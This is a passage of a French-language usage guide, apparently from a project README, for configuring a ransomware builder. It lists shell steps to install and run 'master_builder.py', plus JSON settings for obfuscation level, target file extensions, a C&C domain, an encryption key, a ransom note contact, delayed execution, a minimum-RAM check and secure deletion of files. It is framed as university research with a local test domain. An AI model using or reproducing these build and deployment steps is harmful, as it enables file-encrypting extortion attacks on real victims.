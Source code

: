
---

## 5. Guide d'Utilisation Complète

### 5.1. Installation et Préparation

```bash
# 1. Cloner le projet (déjà fait)
cd /app

# 2. Installer les dépendances
pip install -r requirements.txt

# 3. Appliquer les corrections
python3 fix_imports.py

# 4. Configurer l'outil
python3 master_builder.py --configure
```

### 5.2. Configuration Personnalisée

#### Étape 1 : Configuration de Build
Éditez `/app/build_config.json` :
```json
{
  "target_architecture": "x64",          // Votre architecture
  "obfuscation_level": "high",           // Niveau souhaité
  "target_extensions": [".txt", ".doc"]  // Extensions à tester
}
```

#### Étape 2 : Configuration C&C
Éditez `/app/c2_config.json` :
```json
{
  "c2_domain": "test-research.local",     // Domaine de test local
  "encryption_key": "VOTRE_CLE_64_CHARS", // Générer nouvelle clé
  "ransom_note": {
    "contact_email": "recherche@votre-uni.edu"
  }
}
```

#### Étape 3 : Configuration Payload
Éditez `/app/payload_config.json` :
```json
{
  "execution": {
    "delay_start": 5,                     // Court pour tests
    "minimum_ram_gb": 1                   // Faible pour VM test
  },
  "encryption": {
    "threads": 2,                         // Limité pour tests
    "secure_delete_passes": 1             // Rapide pour recherche
  }
}
```
